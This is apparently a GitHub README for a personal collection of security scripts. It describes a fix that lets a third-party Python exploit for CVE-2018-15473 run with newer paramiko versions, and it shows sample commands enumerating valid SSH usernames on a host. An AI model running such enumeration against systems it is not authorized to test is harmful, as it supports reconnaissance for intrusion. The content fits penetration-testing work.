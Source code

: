 # Scripts
I will be putting fixed, modified or created scripts here that are not necessarily part of a project.

# ssh-check-username.py
Original: https://bugfuzz.com/stuff/ssh-check-username.py
I had an issue running this script with the current Kali. The problem is with changes to paramiko. See: https://github.com/paramiko/paramiko/issues/1314

The solution is to replace instances of the text '_handler_table' with '_client_handler_table'.
I will place the fixed file on this repo.

The purpose of this script is to use a recent vulnerability, CVE-2018-15473, to enumerate users on a system through ssh.
Usage:<br />
root@kali:/media/veracrypt1/2_linux/9F18c/scripts/python# python ssh-check-username.py 10.0.0.20 bob
[*] Invalid username
root@kali:/media/veracrypt1/2_linux/9F18c/scripts/python# python ssh-check-username.py 10.0.0.20 root
[+] Valid username
